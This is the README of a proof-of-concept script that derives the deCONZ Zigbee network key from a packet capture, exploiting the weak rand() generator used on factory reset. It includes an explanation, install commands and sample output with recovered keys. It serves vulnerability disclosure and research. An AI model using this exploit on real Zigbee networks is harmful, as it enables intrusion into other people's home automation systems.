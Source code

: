 # deCONZ Zigbee network key leak proof-of-concept
This script derives the deCONZ Zigbee network key from a packet capture of any
coordinator that has been reset from the Phoscon web interface.

⚠️ **Raspbee and Conbee devices used out-of-the-box (i.e. never reset) are unaffected
because the factory-programmed network key is securely generated.** ⚠️

## Background
The deCONZ REST plugin uses the [C `rand()` function](https://en.cppreference.com/w/c/numeric/random/rand) to generate both the Zigbee network PAN ID and the network key when an adapter is factory reset.  `rand()` is a simple [Linear congruential generator](https://en.wikipedia.org/wiki/Linear_congruential_generator) on every common platform, which is unsuitable for generating secret keys.

The first output of `rand()` is directly used as the Zigbee network PAN ID.  This leaks most of the random number generator's internal state and allows an attacker to quickly brute force the remaining 2<sup>16</sup> or 2<sup>17</sup> state bits to find the network key.

## Installation
```console
$ virtualenv -p 3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

## Usage
```console
$ python3 find_deconz_network_key.py captures/capture_linux.pcapng
Loading scapy
Reading packets from captures/capture_linux.pcapng
Found deCONZ network 0x3B5C
 13%|█████            ▏                        | 8.37k/65.5k [00:04<00:29, 1.95k keys/s]
Network key for 0x3B5C: 36:33:62:35:65:38:38:66:34:39:36:36:37:65:63:33

$ python3 find_deconz_network_key.py captures/capture_windows.pcapng
Loading scapy
Reading packets from captures/capture_windows.pcapng
Found deCONZ network 0x697F
100%|██████████████████████████████████████████| 65.5k/65.5k [00:57<00:00, 1.14k keys/s]
 41%|████████████████████                      | 54.0k/131k [00:30<00:43, 1.77k keys/s]
Network key for 0x697F: 33:30:65:30:34:31:32:62:35:33:62:31:32:64:64:64
```

